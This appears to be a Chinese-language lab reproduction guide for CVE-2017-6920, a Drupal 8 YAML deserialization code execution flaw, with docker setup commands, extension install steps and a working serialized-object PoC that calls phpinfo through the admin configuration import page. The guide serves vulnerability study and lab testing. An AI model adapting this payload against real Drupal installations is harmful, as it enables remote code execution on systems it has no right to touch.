 # CVE-2017-6920 Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞

### 一、漏洞简介

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

### 二、漏洞影响

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

### 三、复现过程

漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：


```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

**漏洞复现**

先安装 yaml 扩展


```bash
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

* 1.登录一个管理员账号
* 2.访问 http://127.0.0.1:8080/admin/config/development/configuration/single/import
* 3.如下图所示，Configuration type 选择 Simple configuration，Configuration name 任意填写，Paste your configuration here 中填写PoC如下：


```bash
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![](images/15889986043150.png)


4.点击 Import 后可以看到漏洞触发成功，弹出 phpinfo 页面

![](images/15889986121361.png)


Tips：

虽然官方 CPE 信息显示从 8.0.0 开始就有该漏洞，但是在 drupal:8.0.0 容器内并没有复现成功，相同操作在 drupal:8.3.0 则可以复现成功，故基础镜像选择drupal:8.3.0

参考链接

https://vulhub.org/#/environments/drupal/CVE-2017-6920/